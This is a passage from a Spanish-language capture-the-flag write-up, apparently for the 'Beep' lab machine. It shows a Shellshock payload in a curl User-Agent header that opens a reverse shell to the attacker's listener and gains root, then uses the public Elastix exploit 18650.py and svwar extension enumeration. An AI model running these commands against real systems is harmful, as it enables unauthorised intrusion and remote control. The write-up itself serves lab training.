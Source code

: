 ```bash
nc -lnvp 4564
```

Ejecutamos el siguiente comando, habilitando comunicaciones con cifrados débiles y entablando una reverse shell por medio de una ejecución remota de comandos en el script `session_login.cgi` como el usuario `root`.

```bash
curl --tlsv1.0 -sk -X GET "https://10.10.10.7:10000/session_login.cgi" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.3/4564 0>&1"
```

```bash
[root@beep webmin]# whoami
root
```

## INTRUSION 18650.py

Otro de los exploits públicos para `elastix` es ocasionado por una ejecución remota de comandos, por lo que vamos a utilizar el exploit `18650.py` para esta intrusión.

```bash
searchsploit elastix
```
```bash
#Resultados
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution | php/webapps/18650.py
```

Descargamos el exploit.

```bash
searchsploit -m php/webapps/18650.py
```

Este script de explotación requiere de 4 datos:

* RHOST
* LHOST
* LPORT
* EXTENSIÓN

El único dato que no conocemos es el número de extensión, por lo que vamos a hacer uso de la utilidad `svwar` para identificar la posible o posibles extensiones configuradas en la máquina.
  
```bash
svwar -m INVITE -e100-999 10.10.10.7
```
```bash
#Resultados
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```
